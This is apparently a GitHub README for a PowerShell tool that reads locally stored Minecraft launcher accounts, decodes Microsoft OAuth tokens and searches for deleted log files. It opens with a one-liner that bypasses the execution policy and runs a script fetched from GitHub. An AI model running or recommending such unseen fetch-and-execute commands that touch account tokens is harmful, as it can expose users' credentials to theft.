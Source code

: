 - **`powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"`**

🛠️ **ALTS-CHECKER TOOL**

🔐 **PowerShell script to analyze locally stored Minecraft accounts**.
 - This PowerShell tool allows you to view, inspect, and decode Minecraft accounts stored in local files by TLauncher or the official Minecraft launcher, including Microsoft OAuth tokens (accessToken / id_token) when available.

📁**Open Log Folders**
 - Automatically opens log folders.

🔍 **Search for Deleted Logs**
 - Uses fsutil usn readjournal to detect traces of deleted files like:
  - latest.log, .log.gz, launcher_profiles.json, usernamecache.json, etc.
  - Results are saved to logs.txt and opened in Notepad.

🧾 **View Minecraft Accounts**
 - Scans and parses the following files:
   - TlauncherProfiles.json
   - launcher_accounts.json
   - usernamecache.json
   - usercache.json

**Displays information for each account found**:
 - Username
 - UUID
 - Account type
 - Microsoft token present ✅ / ❌
 - If a token is found, it’s decoded to show JWT claims in a readable table.

🔓 **Microsoft Token Decoder**
 - Function: Decode-Jwt
 - Accepts a JWT (accessToken or id_token).
 - Splits and base64-decodes the payload.
 - Returns readable JSON claims.

⚠️ **Requirements**
 - Windows PowerShell
 - Admin rights (for deleted file search)
 - TLauncher or Minecraft Launcher installed

📁 **Files Analyzed**
 - %APPDATA%\.minecraft\TlauncherProfiles.json
 - %APPDATA%\.minecraft\launcher_accounts.json
 - %APPDATA%\.minecraft\usernamecache.json
 - %APPDATA%\.minecraft\usercache.json

📜 **Legal Notice**
This tool is intended for personal use and debugging only. It must not be used to violate any terms of service or access unauthorized accounts.
The author is not responsible for any misuse of this script.
